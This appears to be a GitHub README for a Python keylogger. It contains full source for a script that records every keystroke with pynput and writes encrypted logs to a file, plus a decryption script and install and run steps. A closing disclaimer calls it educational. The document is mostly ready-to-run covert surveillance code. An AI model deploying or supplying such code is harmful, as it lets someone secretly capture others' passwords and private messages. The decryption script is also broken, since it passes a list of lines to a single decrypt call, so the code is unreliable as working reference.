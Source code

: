 # Keylogger with encryption
## Description
This project consist of two programs: one for logging key presses and another for decrypting the logged data. The programs are written in Python and use the `pynput` library to capture key presses and the `cryptography` library for encrypting and decrypting data.
# Code
## Keylogger Program (keylogger.py)
``` python 
from pynput import keyboard
import datetime
from cryptography.fernet import Fernet

# Generate encryption key
key = Fernet.generate_key()
cipher_suite = Fernet(key)

# Save key to file 
with open('key.key', 'wb') as f:
    f.write(key)

buffer = []

def on_press(key):
    global buffer 
    if key == keyboard.Key.space:
        # Create a log with the current time and buffer content, then encrypt it
        log = f'[{datetime.datetime.now().strftime('%Y-%m-%d, %H:%M:%S')}] {"".join(buffer)}\n'
        encrypted_logs = cipher_suite.encrypt(log.encode())
        with open('klogs.txt', 'ab') as f: # Opening the file in append binary mode
            f.write(encrypted_logs + b'\n')
        buffer = []
    else:
        try:
            if key.char.isalpha():  # Check if the pressed key is a letter
                buffer.append(key.char)
            else:
                buffer.append(str(key).replace("'", ""))
        except AttributeError:  # Ignore non-character keys like Shift, Ctrl.
           pass 
# Checking if the pressed key is esc if so stop listening key presses
def on_release(key):
    if key == keyboard.Key.esc:
        return False 
        
with keyboard.Listener(on_press=on_press, on_release=on_release) as Listener:
    Listener.join() # Start listening to key presses
```
### Explanation
1. `Imports`: 
Import necessary modules to keyboard events, handling dates and encrypted data.
2. `Encryption Key`:
Generate and save an encryption key for secure data storage.
3. `Buffer`:
A list to collect characters typed by the user.
4. `on_press Function`:
Handles key press events, appends characters to a buffer and writes encrypted logs to a file when the space bar is pressed.
5. `on_release Function`:
Stops listening for a key presses when the Esc key is pressed.
6.  `Listener`:
Initialazes and starts the keyboard listener to call the defined functions on key events.
## Log decryption Program (decryption.py)
``` python
from cryptography.fernet import Fernet

# Load encryption key
with open('key.key', 'rb') as f:
    key = f.read()
    
cipher_suite = Fernet(key)

# Decrypt logs
with open('klogs.txt', 'rb') as f:
    encrypted_logs = f.readlines()
    
decrypted_logs = []
decrypted_logs = cipher_suite.decrypt(encrypted_logs)

# Save decrypted logs to a file
with open('decrypted_logs.txt','w') as f:
   f.write(decrypted_logs.decode())
```
## Requirements
- Python 3.x
- Libraries:
 `pynput`, `cryptography`
## Instalation
1. Clone the repository:
   ``` bash
   git clone https://github.com/hackbutnotme/Keylogger
   ```
2. Install the required libraries:
   ``` bash
   pip install pynput
   pip install cryptography
   ```
## Usage
1. Run the keylogger.py:
   ``` bash
   python keylogger.py
   
   # The program will run in the background, logging key presses.
    ```
2. After logging key presses and saving them to `klogs.txt`, run the fecryptor program:
    ``` bash
    python decryption.py

    # The decrypted logs will be saved to `decrytped_logs.txt`.
    ```
## WARNING
This project is intended for educational purposes only. Using such tools to monitor the activities of others without their consent is illegal and unethical. Please use this project responsibly.
